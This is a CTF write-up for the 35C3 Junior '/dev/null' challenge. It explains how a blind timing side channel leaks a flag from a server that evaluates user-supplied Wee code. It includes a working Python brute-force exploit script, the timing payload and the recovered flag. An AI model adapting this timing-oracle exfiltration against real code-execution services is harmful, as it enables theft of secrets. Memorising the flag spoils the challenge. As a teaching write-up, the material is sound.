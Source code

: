 # 35C3 Junior CTF – /dev/null

* **Category:** Misc
* **Points:** 116 (variable)

## Challenge

> We're not the first but definitely the latest to offer dev-null-as-a-service. Pretty sure we're also the first to offer Wee-piped-to-dev-null-as-a-service[WPtDNaaS]. (We don't pipe anything, but the users don't care). This service is more useful than most blockchains (old joke, we know). Anyway this novel endpoint takes input at /wee/dev/null and returns nothing.
> 
> http://35.207.189.79/
> 
> Difficulty Estimate: Hard
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

Analyzing `http://35.207.189.79/pyserver/server.py` two interesting methods can be discovered.

```Python
def runwee(wee: string) -> string:
    print("{}: running {}".format(request.remote_addr, wee))
    result = check_output(
        ["ts-node", '--cacheDirectory', os.path.join(WEE_PATH, "__cache__"),
         os.path.join(WEE_PATH, WEETERPRETER), wee], shell=False, stderr=STDOUT, timeout=WEE_TIMEOUT,
        cwd=WEE_PATH).decode("utf-8")
    print("{}: result: {}".format(request.remote_addr, result))
    return result

@app.route("/wee/dev/null", methods=["POST"])
def dev_null():
    json = request.get_json(force=True)
    wee = json["code"]
    wee = """
    var DEV_NULL: string = '{}'
    {}
    """.format(DEV_NULL, wee)
    _ = runwee(wee)
    return "GONE"
```

`DEV_NULL` variable contains the flag and is manipulated accessing to `/wee/dev/null` endpoint via POST operation. The variable is put into a *Wee* script, together with an input provided by the user via JSON, that is executed server side.

Unfortunately the execution is completely "blind", because no output is returned to the user, only a constant value (i.e. `GONE`).

Furthermore, the `runwee` method, which executes the passed *Wee* script, contains a timeout (i.e. 5 secs, that you will discover after few analysis).

A creative way to exfiltrate data is via a *side-channel attack based on timing*, using a check that allows to "guess" the complete string one char at a time, i.e. something like *blind SQL injection* attacks.

Analyzing the documentation you could discover two useful methods:
* `charAt`;
* `pause`.

These could be used to craft a *Wee* script like the following.

```
if charAt(DEV_NULL, position) == '?' then
   pause(4500)
end
```

Where `position` is the char you are trying to guess and `?` is the char candidate. If the char candidate is correct, the script will pause for 4.5 secs.

A Python script can be used to automatize the operation.

```Python
import requests
import time
import json

url = "http://35.207.189.79/wee/dev/null"
data_structure = """{{ "code": {} }}"""
data_content = """if charAt(DEV_NULL, {}) == '{}' then
   pause(4500)
end"""
chars = list("_1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM")
response_time_target = 4.0

try:
   
   f = 0
   flag = ""
   fast_answers = 0
   while fast_answers < len(chars):

      best_char = " "
      best_response_time = 0.0
      fast_answers = 0

      for c in range(len(chars)):
         print "[*] Flag char number '{}', char '{}'.".format(f, chars[c])
         data_content_to_send = json.dumps(data_content.format(f, chars[c]))
         data_to_send = data_structure.format(data_content_to_send)
         print "[*] Payload: '{}'.".format(data_to_send)
         start = time.time()
         response = requests.post(url, data=data_to_send)
         end = time.time()
         print "[*] Response: '{}'.".format(response.text)
      
         response_time = end - start
         print "[*] Response time is '{}'.".format(response_time)
         if response_time >= response_time_target and response_time > best_response_time:
            best_response_time = response_time
            best_char = chars[c]
            print "[*] Found char '{}'.".format(best_char)
            break
         elif response_time < response_time_target:
            fast_answers+=1

      f+=1
      flag += str(best_char)
      print "[*] >>> Flag: '{}'. <<<".format(flag)

except KeyboardInterrupt:
   print "[-] Interrupted!"
```

The flag is the following.

```
35C3_TH3_SUN_IS_TH3_SAM3_YOU_RE_OLDER
```